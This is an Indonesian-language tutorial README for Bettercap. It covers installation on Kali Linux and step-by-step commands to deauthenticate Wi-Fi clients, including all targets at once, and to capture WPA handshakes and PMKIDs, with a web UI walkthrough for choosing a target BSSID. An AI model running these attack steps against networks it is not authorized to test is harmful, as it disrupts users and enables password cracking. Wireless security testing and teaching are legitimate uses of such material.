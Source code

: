 # Bettercap

![bettercap logo](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/bettercap%20logo.jpg)

[Bettercap](https://www.bettercap.org/) adalah sebuah framework yang kuat, mudah diperluas, dan portabel yang ditulis dalam [Go](https://id.wikipedia.org/wiki/Go_(bahasa_pemrograman)) yang bertujuan untuk menawarkan kepada peneliti keamanan, red teamer, dan reverse engineer sebuah solusi all-in-one yang mudah digunakan dengan semua fitur yang mungkin mereka perlukan untuk melakukan rekognisi dan menyerang jaringan [Wi-Fi](https://en.wikipedia.org/wiki/Wi-Fi), perangkat [Bluetooth Low Energy](https://en.wikipedia.org/wiki/Bluetooth_Low_Energy), perangkat [HID nirkabel](https://en.wikipedia.org/wiki/USB_human_interface_device_class), [CAN-bus](https://en.wikipedia.org/wiki/CAN_bus), dan jaringan [IPv4](https://en.wikipedia.org/wiki/IPv4)/[IPv6](https://en.wikipedia.org/wiki/IPv6).

## Cara Instal

Kali Linux:

1. Pake packet manager (`apt`):

   ```
   sudo apt-get update
   sudo apt-get install bettercap bettercap-dbgsym bettercap-caplets bettercap-ui
   bettercap -version
   ```

2. Pake Go:

   Pake Go versi: `go1.24.7`
   
   ```
   sudo apt-get update
   sudo apt install golang git build-essential libpcap-dev libusb-1.0-0-dev libnetfilter-queue-dev
   go install github.com/bettercap/bettercap/v2@latest
   sudo mv ~/go/bin/bettercap /usr/local/bin/
   bettercap -version
   ```

Buat info lebih lengkapnya lagi bisa liat di sini: [https://www.bettercap.org/project/installation/](https://www.bettercap.org/project/installation/)

## Cara Pake

Sebelum pake Bettercap, lu harus ngaktifin mode monitor dulu pake:

```
sudo airmon-ng check kill
sudo airmon-ng start [interface]
```

### 1. Mode Interaktif

Mode interaktif adalah mode di Bettercap di mana lu pake sesi interaktif dan masukin perintahnya secara manual satu-satu (interaktif).

Jalanin:

```
sudo bettercap
```

> Kalo muncul output error kaya gini `No active interfaces found.`. Pake opsi `-iface [interface]`.

#### Capture Handshake

Single target:

```
set wifi.handshakes.file [output_file]
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
set wifi.assoc.skip *
wifi.deauth [bssid]
```

Semua target:

```
set wifi.handshakes.file [output_dir]
set wifi.handshakes.aggregate false
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
set wifi.assoc.skip *
wifi.deauth *
```

#### Capture PMKID

Single target:

```
set wifi.handshakes.file [output_file]
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
wifi.assoc *
```

Semua target:

```
set wifi.handshakes.file [output_dir]
set wifi.handshakes.aggregate false
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
wifi.assoc *
```

### 2. Opsi Caplet

Caplet adalah sekumpulan perintah Bettercap yang disimpen di file yang pake ekstensi `.cap`. Fungsinya itu buat mengotomatisasi eksekusi perintah-perintah yang ada di Bettercap, biar kita kaga usah lagi ngetikin perintah satu-satu secara manual.

Jalanin:

```
sudo bettercap -caplet [file_caplet]
```

> Kalo muncul output error kaya gini `No active interfaces found.`. Pake opsi `-iface [interface]`.

Contoh file capletnya ada di sini: [https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/caplet.cap](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/caplet.cap)

### 3. Mode Web UI

Mode Web UI adalah mode di Bettercap yang menyediakan tampilan web, tujuannya itu biar kita bisa pake Bettercap lewat browser.

Jalanin:

```
sudo bettercap -eval "ui on"
```

1. Arahin kursor ke link yang ada di bagian `web ui starting on`, yaitu `http://127.0.0.1:80`, terus lu klik kanan dan pilih `Open Link`.

   ![img 1](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%201.png)
2. Masukkan kredensial login:
   - Usermame: `user`
   - Password: `pass`

   ![img 2](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%202.png)
3. Klik ikon Wi-Fi:

   ![img 3](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%203.png)
4. Pilih interface yang mau lu pake dengan klik menu dropdownnya:


   ![img 4](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%204.png)
5. Mulai scanning Wi-Fi nya dengan klik ikon play:

   ![img 5](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%205.png)
6. Di gambar ini ada beberapa bagian, yaitu:

   ![img 6](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%206.png)

   - `RSSI`: Kekuatan sinyal dari Access Point (AP) dalam satuan [dBm](https://en.wikipedia.org/wiki/DBm).
   - `ESSID`: Nama Wi-Fi.
   - `BSSID`: Alamat MAC unik dari AP.
   - `Vendor`: Produsen AP berdasarkan BSSID.
   - `Encryption`: Jenis enkripsi yang dipake oleh Wi-Fi.
   - `Ch`: Channel yang dipake oleh AP.
   - `Clients`: Jumlah klien yang terhubung ke AP.
   - `Sent`: Jumlah paket data yang dikirim dari klien ke AP.
   - `Recvd`: Jumlah paket data yang diterima dari AP oleh klien.
   - `Seent`: Jumlah paket yang terdeteksi dari klien atau AP selama proses pemantauan.
8. Di sini, lu harus pilih BSSID target yang lu mau diserang, terus klik menu dropdownnya:

   ![img 7](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%207.png)
9. Di sini, lu bisa lakuin dua jenis serangan, yaitu:
   - Capture Handshake
   - Capture PMKID
  
   ![img 8](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%208.png)

   Kalo lu mau Capture Handshake, klik yang `Deauthenticate Client`. Kalo lu mau Capture PMKID, klik yang `Associate`. Dalam kasus ini, gw bakal pilih `Capture Handshake`.
   
   > Catatan:
   >
   > - Capture Handshake: Harus ada 1 klien yang aktif.
   > - Capture PMKID: Kaga semua router mendukung PMKID.
10. Abis klik `Deauthenticate Client`, lu tungguin ampe handshakenya berhasil dicapture. Handshake dianggap berhasil dicapture kalo muncul ikon `kunci merah` dibagian `Encryption` dan nongol notifikasi `Captured handshake for station...`:

    ![img 9](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%209.png)
    
11. Klik ikon Events:

    ![img 10](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%2010.png)
12. Klik salah satu dari 3 `Type` yang warna merah di bagian pesennya yang `Captured handshake for...`:

    ![img 11](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%2011.png)
13. Dari gambar ini, keliatan kalo file handshakenya tuh disimpan di direktori: `/root` dan nama filenya adalah: `bettercap-wifi-handshakes.pcap`.

    ![img 12](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%2012.png)
